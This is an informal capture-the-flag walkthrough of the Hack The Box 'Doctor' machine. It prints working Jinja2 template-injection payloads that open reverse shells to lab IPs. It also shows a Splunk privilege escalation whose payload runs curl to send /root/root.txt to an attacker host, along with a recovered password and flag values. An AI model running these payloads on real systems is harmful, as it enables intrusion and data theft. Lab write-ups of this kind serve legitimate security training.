 
Foun 3 ports 80,22,8089

by adding the following to `10.10.10.209 doctors.htb` we were able to find a new login page on doctors.htb

Went to doctors.htb and registered with an email with .htb emailid.

logged in with that email and were able to create posts


Directory fuzzing hasnt given us anything useful yet: how ever i can see an archive directory which gives a blank response but on viewing source we see an xml file


thomas got the revershell using putting the payload at the post and going to `/archive`, this doesnot work for me. On putting the following `{{44}}[[55]]
{{7*'7'}} would result in 7777777
{{config.items()}}` from payload all the things we get a response on the same `/archive` as mentioned for `7777777`

Like an idiot used the config payload from payload all the things SSTI `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection`
`{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}` and got an http 500 error, will try the direct bash one and see if it works.
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.138\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
Trying the following payload to see if it , works, its mentioned specifically for reverse shell
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

but will need some modification after which it is
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.138\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

offcourse we need to start our netcat via `nc -lvp 4444` and once we inject our payload at the  title of the new message simply go to the archive url and reload the template, once we do that we get a reverse shell


PLease not that the pay load has 2 linux commands, first one is to establish the connection and the next one is for the payload that is sent back, ideally we can also use thomas command and send commands directly via popen , will investigate further on tha.

Once got the initial shell, I tried making it better by `import pty;pty.spawn("/bin/bash");` but it didnt work so I tried using find command to see archives, backups, and configs, i found this '/var/log/apache2/backup' using the find command. then i grepped the following by grepping this file, `10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"` 

So we have password for something , on our inital shells we found, `shaun and web` in the home directory, so i tried using ssh to shaun with the password `Guitar123` and it didnt work .
so i tried getting a better shell from the initial one, and as i noticed python didnt work i tried python3 via `python3 -c 'import pty;pty.spawn("/bin/bash");'`, then i did an `su shaun` with the password `Guitar123` and bam i was in.
then i did a cat /home/shaun/user.txt and got the first flag.

performed `sudo -l`
on googling splunk priv esc i found the following [link](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2), Thomas got the root flag using this so i will copy the repo and use remote python file

using `wget wget https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py`

start your netcat listener via `nc -nvlp 4444`
and then use the following command with parameters as mentioned on the github:
`python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password "Guitar123" --payload "curl -F 'data=@/root/root.txt ' http://10.10.14.94:4444" --lhost 10.10.14.94`

the root flag is `"root.txt"
Content-Type: text/plain

b84324f504a2cac86148687325cf3573
`
